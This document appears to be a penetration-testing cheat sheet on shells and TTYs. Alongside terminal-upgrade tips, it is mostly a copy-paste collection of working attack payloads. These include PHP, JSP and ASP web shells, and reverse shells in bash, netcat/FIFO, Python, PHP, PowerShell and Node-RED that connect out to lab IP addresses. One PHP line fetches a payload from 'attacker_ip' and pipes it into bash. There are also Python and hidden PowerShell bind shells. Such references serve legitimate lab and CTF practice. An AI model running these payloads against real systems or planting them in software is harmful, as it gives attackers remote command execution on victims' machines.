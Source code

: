 ```yaml
---
description: and Shells
icon: book-skull
---
```


# Shells/TTYs

<details>

<summary><mark style="color:orange;"><strong><code>TTY</code></strong></mark> <mark style="color:purple;"><strong>-</strong></mark> <mark style="color:purple;"><strong><code>Teletypewriters</code></strong></mark> </summary>

{% hint style="info" %}
<mark style="color:purple;">**Full**</mark> <mark style="color:orange;">**`TTY`**</mark>

#### <mark style="color:orange;">`BASH`</mark>

1. <mark style="color:red;">**`python3 -c 'import pty; pty.spawn("/bin/bash")'`**</mark>
2. &#x20;<kbd><mark style="color:red;">**CTRL+Z**<mark style="color:red;"></kbd>
3. <mark style="color:red;">**`stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`**</mark>

#### <mark style="color:orange;">**`ZSH`**</mark>

1. <mark style="color:red;">**`python3 -c 'import pty; pty.spawn("/bin/bash")'`**</mark>
2. <kbd><mark style="color:red;">**CTRL+Z**<mark style="color:red;"></kbd>
3. <mark style="color:red;">**`stty raw -echo; fg %1; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`**</mark>
{% endhint %}

{% hint style="info" %}


#### <mark style="color:purple;">`Clear Terminal`</mark>

<mark style="color:purple;">Set the environmental variable from the terminal to</mark> <mark style="color:orange;">**`xterm`**</mark><mark style="color:purple;">:</mark>

{% code title="Change the env to xterm" %}
```editorconfig
export TERM=xterm
```
{% endcode %}
{% endhint %}

{% hint style="info" %}


#### <mark style="color:purple;">`Terminal Size`</mark>

<mark style="color:red;">**`Sometimes you may need to adjust your terminal size to the needs of the situation`**</mark>

{% code title="Check your terminal size" %}
```
stty size
```
{% endcode %}

{% code title="Now, change it in the target" overflow="wrap" %}
```sh
stty rows <NUMBER> columns <NUMBER>
```
{% endcode %}
{% endhint %}

{% hint style="info" %}


#### <mark style="color:purple;">`Use arrow-keys`</mark>

{% code title="Just use it" %}
```sh
bash
```
{% endcode %}

{% code title="Turn history on" %}
```sh
set -o history
```
{% endcode %}

* <mark style="color:purple;">In the</mark> <mark style="color:orange;">**`.bashrc`**</mark> <mark style="color:purple;">file, make sure</mark> <mark style="color:orange;">**`HISTSIZE`**</mark> <mark style="color:purple;">is not set to</mark> <mark style="color:orange;">**`0`**</mark><mark style="color:purple;">:</mark>

```editorconfig
HISTSIZE=1000
HISTFILESIZE=1000
```
{% endhint %}

{% hint style="info" %}
<mark style="color:orange;">**`rlwrap`**</mark> <mark style="color:purple;">**enables line editing and history:**</mark>

{% code title="Listener example" overflow="wrap" %}
```sh
rlwrap nc -lvnp <port>
```
{% endcode %}

{% code title="Connection example" overflow="wrap" %}
```sh
rlwrap nc 10.10.10.131 6200
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:red;"><strong><code>Spawning Shells</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:purple;">The</mark> <mark style="color:orange;">**`pty`**</mark> <mark style="color:purple;">module in</mark> <mark style="color:green;">**`Python`**</mark> <mark style="color:purple;">allows you to spawn a new process in a pseudo-terminal, effectively creating an interactive shell:</mark>

```sh
python3 -c 'import pty; pty.spawn("/bin/sh")' 
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">The</mark> <mark style="color:orange;">**`script`**</mark> <mark style="color:purple;">command starts a shell session and records the session to a file.</mark> <mark style="color:orange;">**`/dev/null`**</mark> <mark style="color:purple;">is specified as the file where the session is "recorded", but since it's</mark> <mark style="color:orange;">**`/dev/null`**</mark><mark style="color:purple;">, no logging actually happens:</mark>

```sh
script -qc /bin/bash /dev/null
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Also is possible to use</mark> <mark style="color:orange;">**`echo`**</mark> <mark style="color:purple;">to pass</mark>  <mark style="color:green;">**`Python`**</mark> <mark style="color:orange;">**`os.system('/bin/bash')`**</mark> <mark style="color:purple;">to the Python interpreter:</mark>

```sh
echo os.system('/bin/bash') 
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Spawn an interactive shell directly from the terminal:</mark>

```bash
/bin/sh -i
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">The command</mark> <mark style="color:orange;">**`exec "/bin/sh"`**</mark> <mark style="color:purple;">replaces the running</mark> <mark style="color:orange;">**`Perl`**</mark> <mark style="color:purple;">process with a new</mark> <mark style="color:orange;">**`/bin/sh`**</mark> <mark style="color:purple;">shell:</mark>

```sh
perl -e 'exec "/bin/sh";'
```

{% code title="Spawn the shell directly" %}
```bash
perl: exec "/bin/sh";
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Ruby`**</mark><mark style="color:purple;">'s</mark> <mark style="color:orange;">**`exec`**</mark> <mark style="color:purple;">function, like in Perl, replaces the current process with a new process—in this case,</mark> <mark style="color:orange;">**`/bin/sh`**</mark><mark style="color:purple;">:</mark>

```sh
ruby: exec "/bin/sh"
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Runs a shell command from</mark> <mark style="color:orange;">**`Lua`**</mark><mark style="color:purple;">, but unlike in</mark> <mark style="color:orange;">**`Perl`**</mark> <mark style="color:purple;">or</mark> <mark style="color:red;">**`Ruby`**</mark><mark style="color:purple;">, this does not replace the current process. It runs</mark> <mark style="color:orange;">**`/bin/sh`**</mark> <mark style="color:purple;">as a child process:</mark>

```bash
lua: os.execute('/bin/sh')
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Replaces the current</mark> <mark style="color:red;">**`Ruby`**</mark> <mark style="color:purple;">interpreter (IRB) with the shell:</mark>

```bash
exec "/bin/sh";
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Used to execute an external shell command:</mark>

```sh
:!bash
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Changes the default shell used by vim's</mark> <mark style="color:orange;">**`:!`**</mark> <mark style="color:purple;">command:</mark>

```bash
:set shell=/bin/bash:shell
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Spawn a shell from within the</mark> <mark style="color:orange;">**`nmap`**</mark> <mark style="color:purple;">interface, enabling the execution of additional shell commands while scanning:</mark>

```sh
!sh
```
{% endhint %}



</details>

<details>

<summary><mark style="color:orange;"><strong><code>PSY</code></strong></mark></summary>

<mark style="color:orange;">**`PSY`**</mark> <mark style="color:purple;">Shell is an interactive</mark> <mark style="color:orange;">**`PHP REPL (Read-Eval-Print Loop)`**</mark> <mark style="color:purple;">used normally for debugging.</mark>

{% code title="Print the working directory" %}
```php
getcwd()
```
{% endcode %}

{% code title="Print the current user" %}
```php
get_current_user()
```
{% endcode %}

{% code title="Print system info" %}
```php
phpinfo()
```
{% endcode %}

{% code title="Print contents from directory" %}
```php
scandir("/home")
```
{% endcode %}

{% code title="Print content from file" overflow="wrap" %}
```php
file_get_contents("/etc/os-release")
```
{% endcode %}

</details>

<details>

<summary><mark style="color:red;"><strong><code>Web Shells</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:red;">**`Save the shells`**</mark>

{% code overflow="wrap" %}
```sh
echo '<?php system($_REQUEST['cmd']); ?>' > cmd.php
```
{% endcode %}
{% endhint %}

{% code title="PHP Shell" overflow="wrap" %}
```php
<?php system($_REQUEST['cmd']); ?>
```
{% endcode %}

{% code title="JSP - Java Server Pages" overflow="wrap" %}
```sh
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
{% endcode %}

{% code title="ASP - Active Server Pages" %}
```aspnet
<% eval request("cmd") %>
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>BASH</code></strong></mark> <mark style="color:red;"><strong><code>Reverse Shells</code></strong></mark></summary>

{% code title="Standard" overflow="wrap" %}
```sh
bash -i >& /dev/tcp/10.10.14.18/1337 0>&1
```
{% endcode %}

{% code title="URL" overflow="wrap" %}
```url
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.14/9001+0>%261'
```
{% endcode %}

{% hint style="info" %}
<mark style="color:orange;">**`FIFO`**</mark>

{% code overflow="wrap" %}
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```
{% endcode %}

{% code title="URL Encoded" overflow="wrap" %}
```url
rm%20/tmp/f%3B%20mkfifo%20/tmp/f%3B%20cat%20/tmp/f%20%7C%20/bin/sh%20-i%202%3E%261%20%7C%20nc%2010.10.16.10%204444%20%3E%20/tmp/f
```
{% endcode %}
{% endhint %}

{% code title="Run it in the background" %}
```sh
nohup bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1" &
```
{% endcode %}

</details>

<details>

<summary><mark style="color:green;"><strong><code>Python</code></strong></mark> <mark style="color:red;"><strong><code>Reverse Shells</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:orange;">**`PTY`**</mark>

{% code title="One-liner IPv4" overflow="wrap" %}
```sh
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.6",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```
{% endcode %}

{% code title="Save in a file IPv4" overflow="wrap" %}
```sh
echo 'import pty
import socket
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.16.6", 4444))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn("/bin/bash")
s.close()' > shell.py
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:orange;">**`subprocess`**</mark>

{% code title="One-liner IPv4 " overflow="wrap" %}
```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

{% code title="Save it in a file IPv4" overflow="wrap" %}
```sh
echo 'import socket, subprocess, os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.14.157", 1235))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
subprocess.call(["/bin/sh", "-i"])
s.close()' > shell.py
```
{% endcode %}
{% endhint %}

{% code title="UDP Reverse shell" overflow="wrap" %}
```python
import os
os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.16.10 4444 >/tmp/f &").read()
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>PHP</code></strong></mark> <mark style="color:red;"><strong><code>Reverse shell</code></strong></mark></summary>

{% code title="Direct reverse shell" overflow="wrap" %}
```php
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.17/4444 0>&1'");?>
```
{% endcode %}

{% code title="Remote reverse shell" overflow="wrap" %}
```php
<?php system("curl http://attacker_ip/reverseshell | bash"); ?>
```
{% endcode %}

{% code title="FIFO " overflow="wrap" %}
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <Port> >/tmp/f"); ?>
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>Powershell</code></strong></mark> <mark style="color:red;"><strong><code>Reverse shell</code></strong></mark></summary>

{% code title="" overflow="wrap" %}
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>Node-Red</code></strong></mark> <mark style="color:red;"><strong><code>Reverse shell</code></strong></mark></summary>

{% code title="Import it" overflow="wrap" %}
```json
[{"id":"7235b2e6.4cdb9c","type":"tab","label":"Flow 1"},{"id":"d03f1ac0.886c28","type":"tcp out","z":"7235b2e6.4cdb9c","host":"","port":"","beserver":"reply","base64":false,"end":false,"name":"","x":786,"y":350,"wires":[]},{"id":"c14a4b00.271d28","type":"tcp in","z":"7235b2e6.4cdb9c","name":"","server":"client","host":"10.10.14.126","port":"9999","datamode":"stream","datatype":"buffer","newline":"","topic":"","base64":false,"x":281,"y":337,"wires":[["4750d7cd.3c6e88"]]},{"id":"4750d7cd.3c6e88","type":"exec","z":"7235b2e6.4cdb9c","command":"","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":517,"y":362.5,"wires":[["d03f1ac0.886c28"],["d03f1ac0.886c28"],["d03f1ac0.886c28"]]}]
```
{% endcode %}

* <mark style="color:purple;">Once you received the connection use another listener you get a more stable shell:</mark>

```sh
bash -c "bash -i > /dev/tcp/10.10.14.172/3000 0>&1" &
```

* <mark style="color:purple;">Then use</mark> <mark style="color:orange;">**`script`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```sh
script -qc /bin/bash /dev/null
```
{% endcode %}

</details>

<details>

<summary><mark style="color:red;"><strong><code>Bind Shells</code></strong></mark></summary>

{% hint style="info" %}
* <mark style="color:purple;">First, find ports were</mark> <mark style="color:orange;">**`inbound`**</mark> <mark style="color:purple;">connections are allowed:</mark>

{% code title="Linux" overflow="wrap" lineNumbers="true" %}
```sh
ss -tuln
netstat -tuln
lsof -i -n
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```sh
netstat -ano | findstr "LISTEN"
Get-Process | Where-Object {$_.Id -eq (Get-NetTCPConnection | Where-Object {$_.State -eq 'Listen'}).OwningProcess}
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Check the firewall rules in Windows:`**</mark>

```powershell
netsh advfirewall firewall show rule name=all
```
{% endhint %}

{% code title="Python Shell" overflow="wrap" %}
```sh
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
{% endcode %}

{% code title="Powershell" overflow="wrap" %}
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endcode %}

</details>
